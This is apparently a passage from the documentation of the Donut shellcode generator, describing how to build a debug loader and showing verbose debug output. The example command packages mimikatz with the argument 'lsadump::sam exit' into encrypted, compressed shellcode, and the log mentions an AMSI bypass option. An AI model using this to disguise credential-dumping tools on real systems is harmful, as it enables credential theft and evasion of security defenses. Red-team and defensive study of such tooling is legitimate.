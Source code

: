 <h2 id="debug">Debugging The Loader</h2>

<p>The loader is capable of displaying detailed information about each step of file execution and can be useful in tracking down bugs. To build a debug-enabled executable, specify the debug label with nmake/make.</p>

<pre>
nmake debug -f Makefile.msvc
make debug -f Makefile.mingw
</pre>

<p>Use donut to create a shellcode as you normally would and a file called <code>instance</code> will be saved to disk.</p> 

<pre>
C:\hub\donut>donut mimikatz.exe -t -z5 -p"lsadump::sam exit"

  [ Donut shellcode generator v0.9.3
  [ Copyright (c) 2019 TheWover, Odzhan

DEBUG: donut.c:964:DonutCreate(): Entering.
DEBUG: donut.c:966:DonutCreate(): Validating configuration and path of file PDONUT_CONFIG: 000000BAC732EE30
DEBUG: donut.c:982:DonutCreate(): Validating instance type 1
DEBUG: donut.c:990:DonutCreate(): Validating format
DEBUG: donut.c:995:DonutCreate(): Validating compression
DEBUG: donut.c:1005:DonutCreate(): Validating entropy level
DEBUG: donut.c:1045:DonutCreate(): Validating architecture
DEBUG: donut.c:1055:DonutCreate(): Validating AMSI/WDLP bypass option
DEBUG: donut.c:311:get_file_info(): Entering.
DEBUG: donut.c:320:get_file_info(): Checking extension of mimikatz.exe
DEBUG: donut.c:327:get_file_info(): Extension is ".exe"
DEBUG: donut.c:343:get_file_info(): Module is EXE
DEBUG: donut.c:355:get_file_info(): Mapping mimikatz.exe into memory
DEBUG: donut.c:238:map_file(): Reading size of file : mimikatz.exe
DEBUG: donut.c:247:map_file(): Opening mimikatz.exe
DEBUG: donut.c:257:map_file(): Mapping 1013912 bytes for mimikatz.exe
DEBUG: donut.c:364:get_file_info(): Checking DOS header
DEBUG: donut.c:370:get_file_info(): Checking NT header
DEBUG: donut.c:376:get_file_info(): Checking IMAGE_DATA_DIRECTORY
DEBUG: donut.c:384:get_file_info(): Checking characteristics
DEBUG: donut.c:464:get_file_info(): Reading fragment and workspace size
DEBUG: donut.c:470:get_file_info(): workspace size : 1415999 | fragment size : 5161
DEBUG: donut.c:473:get_file_info(): Allocating memory for compressed file
DEBUG: donut.c:478:get_file_info(): Compressing with RtlCompressBuffer(XPRESS HUFFMAN)
DEBUG: donut.c:517:get_file_info(): Original file size : 1013912 | Compressed : 478726
DEBUG: donut.c:519:get_file_info(): File size reduced by 53%
DEBUG: donut.c:525:get_file_info(): Leaving.
DEBUG: donut.c:1076:DonutCreate(): Validating architecture 3 for DLL/EXE 2
DEBUG: donut.c:1116:DonutCreate(): Creating module
DEBUG: donut.c:635:CreateModule(): Entering.
DEBUG: donut.c:642:CreateModule(): Allocating 480054 bytes of memory for DONUT_MODULE
DEBUG: donut.c:718:CreateModule(): Setting the length of module data
DEBUG: donut.c:722:CreateModule(): Copying data
DEBUG: donut.c:735:CreateModule(): Leaving.
DEBUG: donut.c:1123:DonutCreate(): Creating instance
DEBUG: donut.c:746:CreateInstance(): Entering.
DEBUG: donut.c:749:CreateInstance(): Allocating space for instance
DEBUG: donut.c:756:CreateInstance(): The size of module is 480054 bytes. Adding to size of instance.
DEBUG: donut.c:759:CreateInstance(): Total length of instance : 483718
DEBUG: donut.c:771:CreateInstance(): Generating random key for instance
DEBUG: donut.c:777:CreateInstance(): Generating random key for module
DEBUG: donut.c:783:CreateInstance(): Generating random string to verify decryption
DEBUG: donut.c:788:CreateInstance(): Generating random IV for Maru hash
DEBUG: donut.c:794:CreateInstance(): Generating hashes for API using IV: 7F9CFD9E98CBBB71